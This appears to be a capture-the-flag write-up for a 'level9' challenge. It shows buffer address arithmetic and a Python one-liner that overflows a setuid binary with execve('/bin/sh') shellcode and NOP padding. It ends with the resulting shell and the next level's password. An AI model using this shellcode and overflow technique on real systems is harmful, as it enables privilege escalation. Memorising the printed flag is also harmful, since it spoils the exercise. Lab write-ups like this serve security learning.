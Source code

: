 # level9

```sh
$> ls -l ~
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```

buffer's start addr: 0x0804a00c \x0c\xa0\x04\x08
buffer's end addr:   0x0804a078 \x78\xa0\x04\x08
0x0804a078 - 0x0804a00c = 0x78 = 120

4 + 21 + 83 + 4
25 + 87 = 112 

\x10\xa0\x04\x08
0x0804a010

0x0804a00c + 0x4 = 0x0804a010

0x0804a010 \x10\xa0\x04\x08


```sh
$> python -c 'print("\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*83 + "\x0c\xa0\x04\x08")' > /tmp/payload

$> ./level9 $(cat /tmp/payload)
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
